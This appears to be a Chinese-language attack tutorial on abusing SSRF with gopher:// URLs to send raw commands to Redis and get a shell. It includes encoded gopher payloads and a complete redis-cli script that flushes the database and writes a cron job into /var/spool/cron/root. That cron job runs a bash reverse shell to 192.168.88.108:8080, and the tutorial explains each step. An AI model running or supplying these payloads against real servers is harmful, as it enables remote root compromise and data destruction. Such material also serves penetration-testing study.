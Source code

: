 # Redis GetShell

## 协议格式 ##

gopher://<host>:<port>//<gopher-path>_后接<font color="red">TCP数据流</font>


## 攻击redis ##

### 初探与介绍 ###

1、首先先要抓到redis的TCP数据流，才好弄Payload：

在Linux中，可以用tcpdump来抓流量

> tcpdump -i lo -s 0 port 6379 -w redis.pcap


若是抓本地接口的流量，注意是lo不是eth0

我们先抓个登录，然后抓个set key：

![](./SSRF/15.png)

将tcpdump抓到的包导出来，用wireshark打开，追踪TCP流，然后只看我们输入的数据，不看服务端返回的数据，可以看到只有几行：

![](./SSRF/16.png)

组合成URL的规则：

1、将回车替换成%0d%0a

2、我们输入的\n替换成%0a

所以这一串字符串可得：

	*1%0d%0a$7%0d%0aCOMMAND%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$4%0d%0akey1%0d%0a$6%0d%0avalue1%0d%0a

在curl中尝试这个payload：

	gopher://127.0.0.1:6379/_*1%0d%0a$7%0d%0aCOMMAND%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$4%0d%0akey1%0d%0a$6%0d%0avalue1%0d%0a


![](./SSRF/17.png)


可以成功设置key。

要在web中运用给这个payload,需要url编码一下：

![](./SSRF/18.png)

![](./SSRF/19.png)

（这里的payload我改成了key3和value3，这里网页是一直转圈圈的）

![](./SSRF/20.png)


试个使用密码的redis：

![](./SSRF/21.png)

重新抓流量，和之前一样操作，发现密码验证也就是加多了一个auth命令：

![](./SSRF/22.png)


顺理成章set key。

接下来讲重点：通过set key GetShell：

思路：

### 将反弹shell写到/var/spool/cron/目录里，这个目录是执行定时任务的地方。 ###

这个目录下如果有文件名为 <font color="red"> root </font> 的定时任务文件，就会以root权限执行。

测试一下：

在/var/spool/cron 中创建一文件 <font color="red">root</font>。内容为：

> */1 * * * * echo "1" > /tmp/a.txt

这样就会一分钟执行一次这个命令。

![](./SSRF/23.png)


网上找到的攻击的脚本：

	redis-cli -h $1 -p $2 flushall
	echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.88.108/8080 0>&1\n\n"|redis-cli -h $1 -p $2 -x set 1
	redis-cli -h $1 -p $2 config set dir /var/spool/cron/
	redis-cli -h $1 -p $2 config set dbfilename root
	redis-cli -h $1 -p $2 save
	redis-cli -h $1 -p $2 quit

以上保存为bash文件，跑之，抓包之，一把梭之，GetShell之 = =

$1 和 $2 在bash脚本里是输入的参数，后面看用法的时候就知道了，$1是输入的第一个参数，$2是输入的第二个参数，，以此类推。这里很明显$1是主机名，$2是端口号

第一行的命令是将所有key删掉，过滤掉垃圾数据，免得到时候save的时候会有奇怪的东西也跟着save了出来

第二行的命令将 

	*/1 * * * * bash -i >& /dev/tcp/192.168.88.108/8080 0>&1

这一个反弹shell的命令存入变量 1 中，redis-cli中 -x 表示从标准输入中读取一个参数，在这里即是将管道符左边的输出作为参数，传递给变量 1

第三行和第四行就是设置redis的导出路径和导出文件名

之后就是导出和退出了

我们来试试这个：

![](./SSRF/24.png)

![](./SSRF/25.png)

使用web试试：

先解包，组合payload：

包分了好几段，注意一下即可：

![](./SSRF/26.png)

![](./SSRF/27.png)

![](./SSRF/29.png)

注意我们输入的\n，要换成%0a

注意空行换成%0a即可：

![](./SSRF/30.png)

我们看看生成的root文件，发现虽然有些冗余东西，但是不影响，只要命令和冗余数据用\n隔开即可：

![](./SSRF/31.png)

![](./SSRF/32.png)